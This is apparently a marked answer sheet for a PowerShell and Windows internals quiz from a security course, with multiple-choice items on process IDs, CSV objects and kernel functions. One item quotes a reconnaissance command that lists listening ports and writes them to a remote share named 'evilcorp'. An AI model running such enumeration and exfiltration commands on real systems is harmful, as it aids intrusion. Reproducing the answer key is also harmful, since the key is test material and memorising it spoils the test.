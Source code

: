 14. You are writing a script and want to get ONLY the pid value of winlogon process:

    A. ps winlogon | select processid
    
    B. ps winlogon | select id
    
    `C. (ps winlogon).id`  
    
    D. (ps winlogon).processid
    
15. You're on target, and run a tasklist... you find a task that is running a PS script. Inside the script you see this:

    `get-nettcpconnection | where-object {$_.state -eq "Listen"} | select name,instanceID,localaddress,localport,owningprocess,remoteaddress,remoteport  | format-list 
    | out-file \\tyrell\evilcorp\hit_these.txt`
    
    What is this command doing!? Choose the BEST, most accurate answer!

    A. sending a list of listening ports on tyrell's machine to the evilcorp server
    
    `B. sending a list of listening ports on the target's box to a mounted share`  
    
    C. sending a list of listening ports on the target's box to tyrell's evilcorp database
    
    D. sending a list of listening ports on the target's box to a local file*
  
16. You import a csv file using this command:

    `$csv_content = import-csv "C:\powershell\advanced_powershell\practice lab\section3\testfile.csv"`
    
    How can you invoke a method on this csv object, converting it to a string?

    A. invoke-method $csv_content -method-name ToString
    
    B. csv_content.ToString()
    
    C. invoke-method csv_content -method-name ToString
    
    `D. $csv_content.ToString()`  

### Kernel and Registry

1. What is the executable that provides the fundamental kernel mechanisms? `ntoskrnl.exe`

2. Which of the following are core kernel functions?

    Format: Alphabetical list of letters, comma separated, no spaces (A,B,C)

    A. I/O manager

    `B. Thread Scheduling`

    C. Event Tracing

    D. Cache Manager

    `E. Interrupt Dispatching`

3. Which mode does OS code run in? `Kernel Mode`

4. (T/F) Read-only pages can be written to in kernel mode. `F`
